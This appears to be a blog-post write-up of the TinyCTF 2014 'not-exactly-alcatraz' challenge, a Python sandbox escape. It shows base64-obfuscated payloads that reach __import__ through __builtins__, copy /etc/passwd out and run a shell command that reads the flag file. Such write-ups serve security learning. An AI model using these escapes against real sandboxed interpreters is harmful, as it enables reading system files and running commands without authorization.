 ```yaml
---
layout: post
title: TinyCTF - not-exactly-alcatraz
categories:
- CTF
tags: [ctf]
status: publish
type: post
published: true
meta:
  _edit_last: '1'
  pw_single_layout: '1'
---
```


Content found at: [Tiny CTF 2014 write-ups](https://github.com/ctfs/write-ups/tree/master/tinyctf-2014/not-exactly-alcatraz "TinyCTF 2014 write-ups")

Extract the provided [stego200.zip](https://github.com/ctfs/write-ups/raw/master/tinyctf-2014/not-exactly-alcatraz/pwn200.zip) file:

Un-zip [the provided `pwn200.zip` file](https://github.com/ctfs/write-ups/raw/master/tinyctf-2014/not-exactly-alcatraz/pwn200.zip):

{% highlight bash linenos %}
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
{% endhighlight %}

The extracted `pwn200` file is a Python script.

{% highlight bash linenos %}
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
baby@sics:~$
open('/home/pybaby/flag.txt')
...
...
...

{% endhighlight %}

Well, we can't do anything 'normal' time for some 'exotic' code (-;

{% highlight bash linenos %}
# Well, let's try to import a library:
# X19pbXBvcnRfXw== is __import__ 
# c2h1dGls is shutil
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# Doing so on our local box

python pwn200
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# BOOM! The password file... Okay, so this should work right?!

Nope... A socket dup'd fd doesn't like to be used like this...so back to the drawing board...

# Well, let's try to import a library again and use a system command:
# X19pbXBvcnRfXw== is __import__
# b3M= is os
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system("cat /home/pybaby/*.txt")

MONEY!!!

{% endhighlight %}

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.
